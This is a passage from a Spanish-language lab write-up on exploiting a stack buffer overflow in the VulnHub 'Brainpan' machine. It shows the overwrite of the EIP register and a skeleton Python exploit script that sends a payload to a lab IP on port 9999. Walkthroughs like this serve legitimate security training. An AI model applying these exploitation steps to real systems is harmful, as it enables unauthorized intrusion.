 ![Brainpan](/assets/img/vulnhub/brainpan/brainpan-17.png)
_Registro EIP_

Vemos que el programa corrompe a los 600 bytes y que también logramos sobrescribir el registro EIP con nuestras `A's` (en hexadecimal el valor de A corresponde a `41`).

### Control del EIP

El siguiente paso, es poder tomar el control del registro EIP para poder indicarle la dirección de memoria donde se encuentra nuestro shellcode.

En este caso, haremos uso de un nuevo script de python `exploit.py`.

```python
#!/usr/bin/env python3
import socket

ip = "192.168.1.16"
port = 9999

payload = ""

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Enviando shellcode...")
  s.send(bytes(payload + "\r\n", "latin-1"))
  print("Conectado!")
except:
  print("No ha sido posible conectarse.")
```
{: file="exploit.py" }
